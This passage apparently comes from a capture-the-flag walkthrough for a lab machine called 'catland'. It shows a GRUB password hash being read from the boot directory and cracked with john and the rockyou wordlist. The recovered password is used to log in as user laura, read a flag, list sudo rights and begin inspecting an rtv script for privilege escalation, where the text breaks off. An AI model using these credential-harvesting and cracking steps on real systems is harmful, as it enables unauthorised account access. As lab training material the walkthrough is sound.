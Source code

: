 We can read the grub password hash at ***/boot/grub/grub.cgf***.

    grub.pbkdf2.sha512.10000.CAEBC99F7ABA2AC4E57FFFD14649554857738C73E8254222A3C2828D2B3A1E12E84EF7BECE42A6CE647058662D55D9619CA2626A60DB99E2B20D48C0A8CE61EB.6E43CABE0BC795DC76072FC7665297B499C2EB1B020B5751EDC40A89668DBC73D9F507517474A31AE5A0B45452DAD9BD77E85AC0EFB796A61148CC450267EBBC

Using john we can crack the hash and get the password for the user laura.

    $ john --format=PBKDF2-HMAC-SHA512 --wordlist=/usr/share/wordlists/rockyou.txt hash.hash                                                                            
    Using default input encoding: UTF-8                                                             
    Loaded 1 password hash (PBKDF2-HMAC-SHA512, GRUB2 / OS X 10.8+ [PBKDF2-SHA512 256/256 AVX2 4x])
    Cost 1 (iteration count) is 10000 for all loaded hashes
    Will run 2 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    berbatov         (?)     
    1g 0:00:00:54 DONE (2023-01-19 14:31) 0.01819g/s 545.2p/s 545.2c/s 545.2C/s booooo..berbatov
    Use the "--show --format=PBKDF2-HMAC-SHA512" options to display all of the cracked passwords reliably
    Session completed. 

    $ su laura
    Password: berbatov

    $ cat /home/laura/user.txt
    cat user.txt
    933ff8025e8944b6b3b797b2f006b2c0

    $ sudo -ll
    Matching Defaults entries for laura on catland:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User laura may run the following commands on catland:

    Sudoers entry:
        RunAsUsers: ALL
        RunAsGroups: ALL
        Options: !authenticate
        Commands:
            /usr/bin/rtv --help

Let's read the file. 

    $ cat /bin/rtv
    #!/usr/bin/python3
    # EASY-INSTALL-ENTRY-SCRIPT: 'rtv==1.27.0','console_scripts','rtv'
    import re
    import sys

    # for compatibility with easy_install; see #2198
    __requires__ = 'rtv==1.27.0'
